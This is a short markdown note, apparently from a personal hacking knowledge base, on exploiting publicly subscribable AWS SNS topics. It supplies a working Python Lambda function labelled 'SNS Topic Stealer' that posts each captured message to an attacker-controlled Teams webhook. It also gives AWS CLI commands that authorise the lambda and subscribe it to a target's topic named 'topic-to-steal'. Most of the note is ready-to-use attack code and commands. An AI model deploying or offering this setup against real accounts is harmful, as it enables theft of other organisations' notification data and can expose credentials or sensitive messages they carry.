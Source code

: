 ```yaml
---
is_a: "[[note]]"
of: "[[hacking aws]]"
---
```

# Notes
Hacking AWS SNS

## Exploiting open SNS topics
If SNS topics are open to be subscribed to, it's fairly easy to connect that via a webhook into a chat program to capture.
* Create a [lambda function](https://aws.amazon.com/premiumsupport/knowledge-center/sns-lambda-webhooks-chime-slack-teams/) that accepts SNS events and forwards them to your chat webhook of choice.

This example uses Microsoft Teams, sending each SNS message in a [pretty card](https://docs.microsoft.com/en-us/microsoftteams/platform/webhooks-and-connectors/how-to/connectors-using?tabs=cURL#send-adaptive-cards-using-an-incoming-webhook) format
```
import urllib3 
import json
http = urllib3.PoolManager()
webhook_url = ""

def lambda_handler(event, context): 
    for sns_message in event['Records']:
        # Chat message in Microsoft Teams adaptive card webhook format
        chat_message = {
          "type": "message",
          "attachments": [
            {
              "contentType": "application/vnd.microsoft.card.adaptive",
              "contentUrl": None,
              "content": {
                "$schema": "http://adaptivecards.io/schemas/adaptive-card.json",
                "type": "AdaptiveCard",
                "version": "1.0",
                "body": [
                  {
                    "type": "Container",
                    "items": [
                      {
                        "type": "TextBlock",
                        "text": "SNS Topic Stealer",
                        "weight": "bolder",
                        "size": "medium"
                      },
                      {
                        "type": "FactSet",
                        "facts": [
                          {
                            "title": "MessageId:",
                            "value": sns_message['Sns']['MessageId']
                          },
                          {
                            "title": "TopicArn:",
                            "value": sns_message['Sns']['TopicArn']
                          },
                          {
                            "title": "Subject:",
                            "value": sns_message['Sns']['Subject']
                          },
                          {
                            "title": "Message:",
                            "value": sns_message['Sns']['Message']
                          }
                        ]
                      }
                    ]
                  }
                ]
              }
            }
          ]
        }
        encoded_msg = json.dumps(chat_message).encode('utf-8')
        resp = http.request('POST', webhook_url, body=encoded_msg)
        print({
            "message": event['Records'][0]['Sns']['Message'], 
            "status_code": resp.status, 
            "response": resp.data
        })
```

* Edit the webhook url, save the lambda, and test with a SNS Notification test message
* Give the target account permissions to invoke the lambda via SNS

```
aws lambda add-permission --function-name arn:aws:lambda:us-east-1:123456789012:my-lambda-stealer \
--source-account 123456789012 \
--statement-id sns-to-lambda-1 --action "lambda:InvokeFunction" \
--principal sns.amazonaws.com
```

* Subscribe to the topic using AWS CLI, changing the topic and lambda ARNs

```
aws sns subscribe \
--topic-arn arn:aws:sns:us-east-1:123456789012:topic-to-steal \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:321456789666:my-lambda-stealer
```

* Test to see if messages arrive
